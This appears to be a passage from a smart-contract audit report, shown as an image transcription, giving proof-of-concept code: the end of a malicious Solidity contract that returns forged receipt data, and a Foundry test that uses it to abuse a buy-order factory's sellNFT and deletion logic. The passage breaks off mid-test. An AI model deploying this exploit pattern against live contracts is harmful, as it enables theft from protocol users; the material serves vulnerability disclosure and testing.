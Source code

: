 ```solidity  
            lockedAmount = 0;  
        }  
  
        uint lockedDate = 0;  
        uint decimals = 0;  
        address vault = address(this);  
        address underlying = address(this);  
        bool OwnerIsManager = true;  
        return receiptInstance(receiptID, 0, lockedAmount, lockedDate, decimals, vault, underlying);  
    }  
  
}  
Forge test:

pragma solidity ^0.8.0;  
  
import {Test, console} from "forge-std/Test.sol";  
import "forge-std/StdCheats.sol";  
  
import {BuyOrder, buyOrderFactory} from "@contracts/buyOrders/buyOrderFactory.sol";  
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";  
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";  
import "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";  
  
import {Exploit} from "./exploit.sol";  
  
contract BuyOrderTest is Test {  
    buyOrderFactory public factory;  
    BuyOrder public buyOrder;  
    BuyOrder public buyOrderContract;  
    ERC20Mock public AERO;  
    Exploit public exploit;  
  
    function setUp() public {  
        BuyOrder instanceDeployment = new BuyOrder();  
        factory = new buyOrderFactory(address(instanceDeployment));  
        AERO = new ERC20Mock();  
    }  
  
    function testMultipleDeleteBuyOrder() public {  
        address alice = makeAddr("alice");  
        deal(address(AERO), alice, 1000e18, false);  
  
        vm.startPrank(alice);  
        IERC20(AERO).approve(address(factory), 1000e18);  
        exploit = new Exploit();  
  
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);  
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);  
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);  
          
        address _buyOrderAddress = factory.createBuyOrder(  
            address(AERO),  
            address(exploit),  
            1,  
            1  
        );  
  
        exploit.setBuyOrder(_buyOrderAddress);  
        buyOrderContract = BuyOrder(_buyOrderAddress);  
  
        buyOrderContract.sellNFT(2);  
```
